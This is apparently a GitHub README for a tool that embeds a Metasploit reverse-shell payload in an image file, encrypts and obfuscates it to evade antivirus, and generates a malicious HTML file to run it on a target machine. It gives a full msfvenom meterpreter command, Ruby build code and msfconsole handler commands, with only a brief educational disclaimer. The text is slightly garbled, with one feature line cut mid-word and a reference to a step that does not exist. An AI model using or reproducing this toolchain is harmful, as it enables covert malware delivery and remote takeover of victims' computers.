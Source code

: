 # Embedded Image Payload Module

This project demonstrates how to create a Metasploit module that embeds a payload into an image file and generates a malicious HTML file to execute the payload on a target machine.

## Features

- Embeds a payload into an image file using steganography techniques
- Encrypts the payload using XOR encryption with a random key
- Applies polymorphic techniques to obfuscate the payload and evade antivirus detection
- Generates a malicious HTML file that extracts and e- Sets up a Metasploit handler to receive the reverse shell connection

## Requirements

- Ruby programming language
- Metasploit framework

## Basic Install (see INSTALL for more info)

1. Clone the repository:
`git clone https://github.com/your-username/embedded-image-payload.git`

2. Install the required dependencies:
`bundle install`

## Creating the payload and handler

1. Generate a Metasploit payload using msfvenom. For this example, let's generate a Windows reverse shell payload. Open a terminal and run the following command:

   ```rb
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
   ```

   Replace `YOUR_IP` with your local IP address or the IP address of the machine where you want to receive the reverse shell connection.

2. Create a new file named `exploit.rb` in the project directory and add the following code:

   ```rb
   # exploit.rb
   require_relative 'module'
   require_relative 'payload'

   module_options = {
     'IMAGE_PATH' => 'image.jpg',
     'OUTPUT_PATH' => 'malicious.html'
   }

   module_instance = MetasploitModule.new(module_options)
   module_instance.exploit

   original_payload = File.binread('payload.exe')
   image_path = 'image.jpg'
   generate_payload(original_payload, image_path)
   ```

3. Open a new terminal window and start a Metasploit listener to catch the reverse shell connection. Run the following commands:

   ```rb
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST YOUR_IP
   set LPORT 4444
   run
   ```

   Replace `YOUR_IP` with the same IP address you used in step 4.

4. In the first terminal window, run the `exploit.rb` script:

   ```rb
   ruby exploit.rb
   ```

   This will embed the payload into the `image.jpg` file and generate a malicious HTML file named `malicious.html`.

## Disclaimer

This project is intended for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this project. Use it at your own risk and ensure that you have proper authorization before using it in any real-world scenarios.

Remember to replace **YOUR_IP** with the actual IP address of your machine where you want to receive the reverse shell connection.

